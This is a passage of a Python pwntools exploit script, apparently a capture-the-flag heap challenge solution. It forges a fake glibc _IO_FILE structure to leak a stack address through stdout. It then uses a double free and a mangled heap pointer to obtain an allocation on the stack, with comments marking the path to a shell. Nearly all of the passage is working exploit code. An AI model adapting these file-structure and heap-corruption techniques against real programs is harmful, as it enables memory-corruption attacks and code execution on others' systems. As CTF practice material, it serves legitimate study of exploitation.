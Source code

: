 ```python=
#     0,                     # 0xb0      176     - `_unused5`
#     0,                     # 0xb8      184     - `_unused6`
#     0,                     # 0xc0      192     - `_unused7`
#     0,                     # 0xc8      200     - `_unused8`
#     0,                     # 0xd0      208     - `_unused9`
#     vta,                   # 0xd8      216     - `vtable`
#     )

#For stack leak
IO_file_fake = flat(
    0xfbad1800,    # 0x00      0       - Ghi đè `_flags`
    0,                     # 0x08      8       - `_IO_read_ptr`
    0,                     # 0x10      16      - `_IO_read_end`
    0,                     # 0x18      24      - `_IO_read_base`
    adr,                     # 0x20      32      - `_IO_write_base`
    adr+8,                     # 0x28      40      - `_IO_write_ptr`
    stdout+131,                     # 0x30      48      - `_IO_write_end`
    stdout+131,                     # 0x38      56      - `_IO_buf_base`
    stdout+132,                     # 0x40      64      - `_IO_buf_end`
    # 0,                     # 0x48      72      - `_IO_save_base`
    # 0,                     # 0x50      80      - `_IO_backup_base`
    # 0,                     # 0x58      88      - `_IO_save_end`
    # 0,                     # 0x60      96      - `_markers`
    # 0,                     # 0x68      104     - `_chain`,
    # 0,                     # 0x70      112     - `_flagno`
    # 0,                     # 0x78      120     - `_flags2`
    # 0,                     # 0x80      128     - `_old_offset`
    # lock,                  # 0x88      136     - `_lock`
    # 0,                     # 0x90      144     - `_unused1`
    # 0,                     # 0x98      152     - `_codecvt
    # 0,                     # 0xa0      160     - `_wide_data`
    # 0,                     # 0xa8      168     - `unknown2`
    # 0,                     # 0xb0      176     - `_unused5`
    # 0,                     # 0xb8      184     - `_unused6`
    # 0,                     # 0xc0      192     - `_unused7`
    # 0,                     # 0xc8      200     - `_unused8`
    # 0,                     # 0xd0      208     - `_unused9`
    # vta,                   # 0xd8      216     - `vtable`
    )

#Malloc for overwriting struct for shell | for stack leak
#Stop here for shell
buy(512, IO_file_fake)

#Stack 
stack = ru(b'1')[:-3]
stack = stack.ljust(8, b'\0')
stack = u64(stack)
info("Stack leak: "+hex(stack))

#Double free 3rd
buy(512, b'abc')
er()
w(b'0'*8+ p64(0xcafef00d))
er()

stackgen = gen(heap_base+0x6c0,stack-0x178)
info("Stack gened: "+hex(stackgen))
w(p64(stackgen))
GDB()
#Malloc for overwriting stack
buy(512, b'abc')

```